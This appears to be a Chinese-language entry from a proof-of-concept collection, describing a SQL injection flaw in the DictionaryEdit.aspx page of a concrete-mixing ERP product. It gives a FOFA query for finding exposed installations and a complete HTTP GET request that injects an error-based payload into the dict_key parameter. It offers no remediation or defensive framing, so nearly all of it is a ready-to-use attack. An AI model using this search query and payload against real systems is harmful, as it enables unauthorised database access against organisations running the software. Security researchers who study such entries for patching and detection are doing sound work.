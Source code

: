 ## 商混ERP-DictionaryEdit.aspxSQL注入漏洞

## fofa
```
title="商混ERP系统"
```

## poc
```
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(100),substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32))-- HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0
```

![1b7bdddf5e50c3666285f6e2f366df73](../../images/e5872135-ff83-4e8a-a260-049034511ce9.png)
